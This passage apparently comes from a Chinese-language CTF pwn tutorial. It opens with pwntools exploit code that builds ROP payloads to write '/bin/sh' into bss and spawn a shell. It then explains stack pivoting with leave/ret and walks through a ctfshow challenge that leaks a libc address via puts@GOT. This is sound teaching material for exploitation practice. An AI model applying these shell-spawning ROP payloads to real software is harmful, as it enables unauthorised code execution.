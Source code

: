 ```python
##read(0,bss,16)
payload2 = off * 'a' + p64(cus_addr_end) + p64(0) + p64(1) + p64(read_got_addr)  + p64(16) + p64(bss_base_16) + p64(0) + p64(cus_addr_front) + 56 * 'a' + p64(main_addr)
payload2 = payload2.ljust(200, "B")

p.send(payload2) 

##sent(/bin/sh) to bss
p.recvuntil('bye~\n')
p.send(p64(sys_addr) + '/bin/sh\x00')

##getshell
payload3 = off * 'a' + p64(cus_addr_end) + p64(0) + p64(1) + p64(bss_base_16)  + p64(0) + p64(0) + p64(bss_base_16 + 8) + p64(cus_addr_front) + 56 * 'a' + p64(main_addr)
payload3 = payload3.ljust(200, "B")

p.send(payload3)
p.interactive()
```

栈迁移
---

当溢出字节不够构造ROP链时，让栈迁移到攻击者能写入的一个地址, 只要这个地址下的内容攻击者提前布局好，就一样能进行ROP。

我们需要了解栈迁移用到的最关键的两个汇编指令 **leave** 指令和 **ret** 指令。其作用就是用来还原栈空间的。

```assembly
leave = mov esp, rbp; pop rbp
ret = pop rip
```

### **例题演示：**

来自 ctfshow摆烂杯-CET6

这道题题目给了libc，

![image-20211229124550246](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2ecdf2bde319cdc570d442028642ad41550a3ec0.png)

只开了NX的64位程序，

![image-20211229124614502](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6fa788826d761ea69f546ae36464ee03d272b08a.png)

第一关利用4字节的栈溢出覆盖seconds为0，

这里明显存在16字节的栈溢出，但是实在太短了，根本没办法做什么事，果断使用栈迁移，

![image-20211229140348428](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f1643231c7fd05298932f2468101c63e28131fce.png)

#### 思路：

将 **rbp** 覆盖成 **fake\_stack地址(0x404F00)**，让程序再回到 **read函数(0x4011ae)**, 然后再巧妙把 **rbp** 覆盖成 **fake\_stack+0x40处地址(0x404F40)**——这样就能在 **fake\_stack地址(0x404F00)** 处写入数据，并让程序再回到read函数，这一次 **rsp** 因为 **leave；retn**，变为 **fake\_stack+0x10(0x404f10)** ,这样就能通过构造ROP链，控制read函数的返回地址，让其打印出got表里puts函数的地址，从而就获取到了libc基址，再次让程序返回read函数，最后构造getshell的ROP链即可。
